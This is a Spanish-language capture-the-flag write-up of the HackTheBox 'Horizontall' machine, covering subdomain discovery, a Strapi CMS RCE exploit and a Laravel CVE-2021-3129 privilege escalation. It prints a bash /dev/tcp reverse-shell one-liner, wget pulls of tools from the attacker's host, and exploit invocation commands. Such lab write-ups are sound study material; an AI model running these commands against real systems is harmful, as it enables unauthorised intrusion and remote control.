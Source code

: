 ```yaml
---
title: Horizontall
published: 2025-02-26
image: "./logo.png"
tags: [Easy, Information Leakage, Strapi CMS, Laravel, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- Information Leakage
- Port Forwarding
- Strapi CMS Exploitation
- Laravel Exploitation

### Preparación

- eWPT
- eJPT

***

## Reconocimiento

Comenzaremos haciendo un escaneo a los puertos abiertos de la máquina y sus respectivos servicios y versiones.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.105
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FuVQ6oH5EAxdfPG4Rr9se%2Fimg1.png?alt=media&#x26;token=cb865253-994a-43c0-ac41-6fb0b5ae0703" alt=""><figcaption></figcaption></figure>

### HTTP

Podemos ver el puerto **SSH** y **HTTP** abiertos, empezaremos por el segundo. Al abrir la web podemos ver que usa un dominio **horizontall.htb**, por lo que lo añadimos al `/etc/hosts`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Ffg2oRhZUBeTGFq5aKMzl%2Fimg2.png?alt=media&#x26;token=ae123aa6-5262-452c-8d6c-913f64410e18" alt=""><figcaption></figcaption></figure>

### Gobuster

A primera vista parece una web normal. Por lo que comenzaremos a ver directorios/ficheros ocultos con **gobuster**_._


```
gobuster dir -u http://horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FtNGw6PG7hmxPKdT6uSRN%2Fimg3.png?alt=media&#x26;token=1566f1b7-6d75-422d-877e-c3a75727c31f" alt=""><figcaption></figcaption></figure>

## Ffuf (Virtual Hosting)

La verdad que no parece haber nada interesante. Como vimos antes corre un **nginx**.  Se puede estar usando **Virtual Hosting** para tener varias webs en la misma máquina, por lo que seguiremos el mismo procedimiento de reconocimiento.


```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://horizontall.htb -H "Host: FUZZ.horizontall.htb" -mc 200
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FPIzVYAEkFQNh1N0bcER4%2Fimg4.png?alt=media&#x26;token=1b1e7c0e-0c90-459f-b0a8-278b5b15e306" alt=""><figcaption></figcaption></figure>

Podemos ver el dominio api-prod, por lo que lo añadimos al /etc/hosts también. Y volveremos a hacer el mismo reconocimiento.


```
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmXlafoKabxScWfKSldO4%2Fimg5.png?alt=media&#x26;token=8807c335-603d-4412-9cfa-a1ad8b6ca284" alt=""><figcaption></figcaption></figure>

Probaremos a entrar primero a `/reviews` a ver que econtrarmos:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F1fYjNmjGl669tBiBiOiN%2Fimg6.png?alt=media&#x26;token=d188a6aa-fc36-48be-81b2-0c6bdccf4273" alt=""><figcaption></figcaption></figure>

Parecen ser reseñas de usuarios. Buscaremos en `/admin`:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FIpKEfgCbSPcrrXiREj09%2Fimg7.png?alt=media&#x26;token=724f0a44-b15b-4619-ab40-1d351bb59bc0" alt=""><figcaption></figcaption></figure>

### Strapi

Vemos que es un panel de login de administración de **strapi**. Investigando si vas a la ruta `/admin/init` te debería dar la versión como podemos ver:

```
3.0.0-beta.17.4
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FXsSRmoeOGcsdcHi8JknR%2Fimg8.png?alt=media&#x26;token=9e834f49-75d1-4904-8a0a-7df5259d12d5" alt=""><figcaption></figcaption></figure>

## Explotación

Buscando vulnerabilidades podemos encontrar una que incluso tiene un **PoC** ([Enlace](https://www.exploit-db.com/exploits/50239)). Copiamos el código en python y lo ejecutamos apuntando a la máquina víctima:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fr86UCR3r848B6IiZnNK4%2Fimg9.png?alt=media&#x26;token=31a8cf88-4079-4979-b2be-028e850b18b7" alt=""><figcaption></figcaption></figure>

Como podemos ver ya tenemos **RCE** por lo que vamos a intentar crear una reverse shell. Nos pondremos en escucha con netcat en el puerto 6969 y ejecutaremos la shell:

```
nc -lvnp 6969
```

```
bash -c 'bash -i >& /dev/tcp/10.10.14.16/6969 0>&1'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FEkx2vKcP0MKDU7mUiIPZ%2Fimg10.png?alt=media&#x26;token=4a6044a8-3e18-4469-963e-55e77bae5075" alt=""><figcaption></figcaption></figure>

Y ya tendríamos una shell con la máquina víctima. Al mirar en el escritorio del usuario developer podemos ver la user flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FChPiSJeqfpUYgW1pAVCN%2Fimg11.png?alt=media&#x26;token=abc77c13-623c-4abe-9956-bcceb095e35e" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Ahora tocaría la elevación para conseguir la root flag. Usaremos **linpeas.sh** para descubrir la máxima información posible por lo que descargaremos la release y la subiremos al servidor de python para poder descargarlo desde la máquina víctima:

```
python3 -m http.server
```

```
wget http://10.10.14.16:8000/linpeas.sh
```

```
chmod +x linpeas.sh
```

Al ejecutarlo podemos ver algo raro y es que internamente hay 2 puertos abiertos:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FDjnNTQsRBwevQuumEWPx%2Fimg12.png?alt=media&#x26;token=c875a779-8450-4a30-ada1-203a5a34bbc6" alt=""><figcaption></figcaption></figure>

El **8000** y el **1337**, si hacemos un curl del 8000 vemos lo siguiente:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFgvh1bKbol3FYX3tI4uv%2Fimg13.png?alt=media&#x26;token=29590719-13cd-4351-a262-1e34218aeffe" alt=""><figcaption></figcaption></figure>

Vemos que usa la versión 8 de **Laravel** un framework de **PHP** por lo que podríamos buscar si tiene alguna vulnerabilidad.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fx9BCWtS1SBG0gG6XFhYL%2Fimg14.png?alt=media&#x26;token=facc04af-857b-4ca7-bb58-bc6d9f1a6a8a" alt=""><figcaption></figcaption></figure>

Hay un **RCE** para esa versión, buscando he encontrado un [exploit](https://github.com/nth347/CVE-2021-3129_exploit) para este CVE, pero deberemos cambiar un poco el exploit ya que no puede hacer un git clone por el DNS.

```
os.system("wget http://10.10.14.16:8000/phpggc.tar")
os.system("tar -xvf phpggc.tar")
```

Cambiaremos esas 2 líneas por la parte del git clone. Lo descargamos desde la máquina después de haberlo comprimido e iniciado el servidor web en local. Ejecutamos el **exploit.py**:

```
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 "cat /root/root.txt"
```

Y así obtendremos la root flag.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/374)

---